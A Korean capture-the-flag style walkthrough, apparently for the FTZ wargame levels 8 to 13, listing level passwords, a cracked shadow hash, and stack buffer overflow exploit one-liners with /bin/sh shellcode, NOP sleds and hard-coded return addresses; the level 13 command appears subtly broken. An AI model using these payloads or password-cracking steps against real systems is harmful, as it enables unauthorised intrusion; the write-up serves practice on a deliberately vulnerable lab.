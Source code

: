 ### level8
- pw : break the world
- 파일 크기가 2700인 shadow파일 찾기
- size 옵션으로 숫자+단위 입력이 가능한데 단위는 제공되지 않았으므로 b, c, k, m 모두 검색
- 2700c로 검색 시 /etc/rc.d/found.txt 식별 가능
- level9:$1$vkY6sSlG$6RyUXtNMEVGsfY7Xf0wps.:11040:0:99999:7:-1:-1:134549524
- 존더리퍼를 이용하여 크랙

### level9
- pw : apple
- bof 문제
- buf배열의 크기는 10인데 fgets로 40개 받아서 buf2배열까지 오버플로우 발생
- 입력은 go 적당히 반복한거 입력하면 가능

### level10
- pw : interesting to hack!
- ipcs 명령어를 통하여 key값이 7530인 공유메모리 확인 가능
- 권한이 666 이므로 열람 가능
- shmget, shmet 활용해서 열람

### level11
- pw : what!@#$?
- attackme 크랙, gdb로 실행 시 'Couldn't get registers: Operation not permitted'에러떠서 tmp폴더 복사 후 진행
- <main+41> 에서 lea eax, [ebp-264]를 통해 argv로 넘겨준 인자가 스택에 쌓이는 것을 알 수 있고, 실제로 'A'*264 넘겨주면 ebp까지 채워지는 것을 확인 가능
- 쉘코드가 포함된 버퍼 264byte와 SFP 4byte를 채우고 Return Address에 적당한 값을 넘겨주면 쉘코드가 실행되면서 level12 획득 가능
- ASLR이 걸려 있으므로 여러번 실행하다보면 고정값으로 넣어준 RA가 쉘보다 앞에 있는 NOP에 걸리면서 쉘코드 실행
- 
```
./attackme `python -c "print '\x90'*100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x90'*143 + '\x94\xe1\xff\xbf'"`
```

### level12
- pw : it is like this
- 앞문제와 유사
- main+56에서 gets 호출할때 main+49에 입력 주소 ebp-264 전달
- pause를 위해 페이로드에 cat 추가
- 
```
(python -c "print '\x90'*100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x90'*143 + '\x94\xe1\xff\xbf'";cat) | ./attackme
```

### level13
- pw : have no clue
- gdb로 확인해보면 level11과 유사한데 ebp-12에 0x1234567을 넣고 strcpy후 프로그램 종료 전에 변조되었는지 확인하는 것을 알 수 있다(canary와 같은 느낌)
- strcpy는 입력주소로 ebp-1048 전달
- 버퍼 1036bytes + 0x1234567 + 버퍼 8bytes + SFP 4bytes + RA 4bytes 구조
- 
```
./attackme 'python -c "print '\x90' * 500 + shellcode + '\x90'*511 + '\x67\x45\x23\x01' + '\x90' * 12 + '\xb0\xeb\xff\xbf'"'
```
